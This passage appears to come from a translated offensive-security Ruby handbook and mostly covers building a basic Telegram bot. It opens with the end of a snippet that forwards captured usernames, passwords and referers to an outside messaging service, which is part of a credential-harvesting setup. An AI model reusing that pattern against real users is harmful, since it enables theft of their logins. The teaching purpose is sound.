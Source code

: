 ```
    client.update("[Info] No Referer!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts "" 
```

# Telegram API

# Telegram API

我们知道 Telegram 是一款通过用户的手机号识别用户的消息应用。幸运的是，Telegram 有自己的 API -*Ruby 有一个包装 gem 用于* [*Telegram 的 Bot API*](https://core.telegram.org/bots/api) 叫做 [*telegram-bot-ruby*](https://github.com/atipugin/telegram-bot-ruby) - 允许你与其他服务集成，创建自定义工具，构建单人和多人游戏，构建社交服务，几乎可以做任何事情；你闻到了一些邪恶的味道吗？

+   安装 telegram-bot gem

    ```
    gem install telegram-bot-ruby 
    ```

+   基本用法

就像许多 API 一样，你必须获取一个[token](https://core.telegram.org/bots#botfather)来处理你的机器人。这里是一个基本用法

```
require 'telegram/bot'

token = 'YOUR_TELEGRAM_BOT_API_TOKEN'

Telegram::Bot::Client.run(token) do |bot|
  bot.listen do |message|
    case message.text
    when '/start'
      bot.api.send_message(chat_id: message.chat.id, text: "Hello, #{message.from.first_name}")
    when '/stop'
      bot.api.send_message(chat_id: message.chat.id, text: "Bye, #{message.from.first_name}")
    when '/rubyfu'
      bot.api.send_message(chat_id: message.chat.id, text: "Rubyfu, where Ruby goes eveil!")
    end
  end
end 
```

运行后，打开你的 Telegram 并找到机器人，开始聊天输入 `/start`，尝试发送 `/rubyfu`。

![](rubyfubot.png)

+   内联机器人

如果你从上面的例子中得到了那种邪恶的微笑，你可能会考虑与你的机器人[内联](https://core.telegram.org/bots/inline)互动，调用/@提及你的机器人，并要求机器人执行更多操作。
